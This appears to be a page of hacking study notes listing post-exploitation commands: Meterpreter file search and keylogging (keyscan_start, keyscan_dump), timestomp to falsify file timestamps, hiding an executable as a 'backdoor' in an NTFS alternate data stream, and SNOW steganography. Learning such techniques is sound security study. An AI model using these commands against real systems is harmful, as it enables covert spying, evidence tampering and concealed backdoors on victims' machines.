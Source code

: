 - Search files
```bash
    meterpreter> search -f file
    
    find /myfoder -name "secret.txt" -o -name "*.png"
    find /myfolder -type {f/d} -name myfile.txt
```

- Show state firewall
```bash
netsh firewall show state
```

##   Polkit or Policykit
- pkexec cve-2021-4034


##   Modified Data

-  MACE value
```bash
timestomp secret.txt -m "01/01/2020 8:09:29"
timestomp secret.txt -v
```

##   Keylogger
- keyscan
```bash
    meterpreter > keyscan_start
    meterpreter > keyscan_dump
```


##   System Monitoring
* Remote Desktop Connection (RDP)
* Power Spy (Windows)
* Log view
* SpyAgent

##   Hide Files
>  Hidden a exe onto a txt
```bash
type c:\\calc.exe > c:\\readme.txt:calc.exe
mklink backdoor.exe readme.txt:calc.exe
```


##   Hide Data - Steganography

- Snow
# Hide data
```bash
snow.exe -C -m "text" -p "password" text1.txt text2.txt
	- 'password' is the password. The data text is hidden inside the text2.txt
	- the file text2.txt has become a combination of text1.txt and text
```
 